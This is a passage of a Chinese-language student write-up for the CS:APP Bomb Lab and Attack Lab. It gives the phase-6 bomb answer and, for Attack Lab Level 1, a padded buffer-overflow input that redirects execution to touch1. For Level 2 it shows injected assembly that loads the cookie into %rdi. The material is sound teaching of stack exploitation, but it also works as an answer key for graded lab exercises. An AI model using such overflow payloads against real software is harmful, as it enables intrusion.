 回到原来的链表，表中元素的值以及他们应当对应的新数组位置为：


表地址		|6032d0	|6032e0	|6032f0	|603300	|603310	|603320
---			|---	|---	|---	|---	|---	|---
表中元素	|014c	|00a8	|039c	|02b3	|01dd	|01bb
对应位置	|4		|5		|0		|1		|2		|3

从而反推输入的值：

新数组地址	|6032f0	|603300	|603310	|603320	|6032d0	|6032e0
---			|---	|---	|---	|---	|---	|---
反转后输入	|3		|4		|5		|6		|1		|2
输入值		|4		|3		|2		|1		|6		|5

输入`4 3 2 1 6 5`。

### 附加关

第6关做的呕吐，所以附加关不做了，直接看网上答案怎么做的就行。

## Attack Lab

主要是利用栈的漏洞进行攻击，分为代码注入和面向返回攻击两部分。

### 代码注入

代码顺序`main -> stable_launch -> launch -> test`。里面主要是处理服务器相关的东西，我们不用管，`test`的结构说明书上已经写了。

#### Level 1

我们的目的是构造特殊的输入，使得缓冲区溢出，从而跳转到`touch1`函数。用gdb执行调试，在`getbuf`开始时停顿，反汇编。
我们可以看到，`%rsp-0x28`是buf的开始位置，返回地址存放于`%rsp`处，而`touch1`的值为`0x4017c0`。
我们只需要前0x28=40个字符非换行（比如，空格0x20），然后再8个字符等于返回地址`0x00000000004017c0`即可，答案如下：

```
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
20 20 20 20
c0 17 40 00
00 00 00 00
```

#### Level 2

我们需要构造一段程序，将%rdi赋予cookie（`0x59b997fa`），然后通过ret函数跳转到`touch2`函数。为此我们需要构造如下的程序：

```x86
mov $0x59b997fa, %rdi
ret
```
